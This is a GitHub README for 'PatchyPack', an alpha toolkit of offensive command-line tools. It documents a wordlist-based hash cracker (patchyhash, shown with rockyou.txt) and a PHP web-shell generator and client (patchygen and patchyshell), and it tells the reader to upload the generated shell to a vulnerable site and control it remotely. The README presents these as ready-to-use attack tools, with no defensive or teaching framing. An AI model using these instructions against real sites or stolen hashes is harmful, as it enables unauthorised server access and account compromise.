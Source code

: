 # PatchyPack [Alpha]
Patchy Pack [Alpa]. A set of command line tools for anything from port scanning to web shell generation.
Patchy Pack is far from finished with many more updates, features, and bug fixes on the way.
## Reccomended OS: Linux
# Installation
After downloading the PatchyTools folder run the setup script for setting up aliases/shortcuts:
```
chmod +rwx setup
./setup
```
While you're in the PatchyTools directory give permissions to the genshell bash script. This script is responsible for generating php webshells.
```
chmod +rwx genshell
```
Note that you'll have to close and reopen the current shell session or run:
```
source .bash_profile
```
This will let the changes take effect. Bash profiles may vary. 
Next, run the make.py script for installing necessary dependencies and packages:
```
python3 make.py
```
# Intro
Check out the options for Patchy Pack by typing: 
```
patchy
```
Further Usage and examples can be found on: https://patchyst.github.io/patchy/ (I haven't finished documentation on the tools yet :/)

# Cracking Hashes with Patchy Pack
So far Patchyhash can crack a variety of hashing algorithims such as md5, sha512, sha256, sha224, sha1, sha384, and DES.
 ## Usage and examples:
```
$ patchyhash -h

usage: patchyhash [-h] [-ht HASH_TYPE] [-s SALT] [-va] [-v]
                          hash_path dict_path

positional arguments:
  hash_path             Path to password hash file
  dict_path             Path to password dictionary file

optional arguments:
  -h, --help            show this help message and exit
  -ht HASH_TYPE, --hash_type HASH_TYPE
                        specify hash type
  -va, --viewall        View all passwords and hashes being compared. usage
                        example: --viewall Y
  -v, --version         show program's version number and exit
```
The positional arguments are required. The first is the path to the file containing the target hash. The second positional argument is the wordlist for pathcyhash to check against. If no hashing algorithim is specified patchyhash defaults to md5
Example:
```
patchyhash ~/md5password.txt ~/worlists/rockyou.txt
```
Optional arguments include salt, hash type, and an option to view all hashes being checked against target hash.
```
patchyhash ~/shapassword.txt ~/worlists/rockyou.txt --hast_type sha256 --viewall
```
* --viewall: view all hashes compared with target hash
* --hash_type: specify hashing algorithim (in this case sha256)
```
patchyhash ~/shapassword.txt ~/worlists/rockyou.txt -ht sha256 -va
```
* -va: Same as view all
* -ht: same as hashtype
# Generating and Accessing Web Shell with Patchy Pack
Before accessing a web shell we have to generate it. As of now. patchygen only generates php based webshells.
```
$ patchygen -h
Desc: Used to generate a webshell
Required Usage: patchygen webshell_file webshell_name
Optional Usage: [-p]: set a password for php shell
	example: patchygen shell.php shell -p passw0rd!
		 patchygen /root/webshells/myshell.php nameofmyshell
```
To generate a simple php webshell with no password just give a the webshell file path and the desired shell name:
```
patchygen ~/webshells/shell.php shellname
```
Upload the webshell to a vulnerable site and access it manually using a get request or patchyshell for easier access.
```
patchyshell http://somesite.com/shell.php shellname
```
patchyshell help page:
```
usage: accessshell.py [-h] [--password PASSWORD] target_url shell_name
accessshell.py: error: the following arguments are required: target_url, shell_name
Patricks-MacBook-Air:~ patrick$ patchyshell -h
usage: accessshell.py [-h] [--password PASSWORD] target_url shell_name

positional arguments:
  target_url           The target URL
  shell_name           Name of shell

optional arguments:
  -h, --help           show this help message and exit
  --password PASSWORD  password for shell
  ```
